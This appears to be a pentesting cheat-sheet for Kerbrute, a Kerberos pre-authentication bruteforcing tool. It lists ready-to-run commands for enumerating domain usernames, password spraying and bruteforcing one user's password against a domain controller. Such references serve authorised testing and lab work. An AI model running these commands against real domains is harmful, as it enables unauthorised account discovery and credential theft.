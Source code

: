 # Kerbrute

## About

A tool to perform Kerberos pre-auth bruteforcing

### Links

[Github](https://github.com/ropnop/kerbrute) [Releases](https://github.com/ropnop/kerbrute/releases)

## Installing

Get the most recent file from the [Releases Page](https://github.com/ropnop/kerbrute/releases) and make it executable

```
chmod +x kerbrute_linux_amd64
```

## Usage

```
./kerbrute -h
```

### User Enumeration

```
./kerbrute_linux_amd64 userenum -d DOMAIN --dc DC-IP USERLIST.txt -v -o Outfile.txt
./kerbrute_linux_amd64 userenum -d DOMAIN --dc DC-IP USERLIST.txt | grep "VALID USERNAME" | awk '{print $7}' > valid_users.txt
```

### PasswordSpray

```
./kerbrute_linux_amd64 passwordspray -d DOMAIN --dc DC-IP domain_users.txt PASSWORD -v -o Outfile.txt
```

### Bruteforce

```
./kerbrute_linux_amd64 bruteuser -d DOMAIN --dc DC-IP WORDLIST USER -v -o Outfile.txt
```
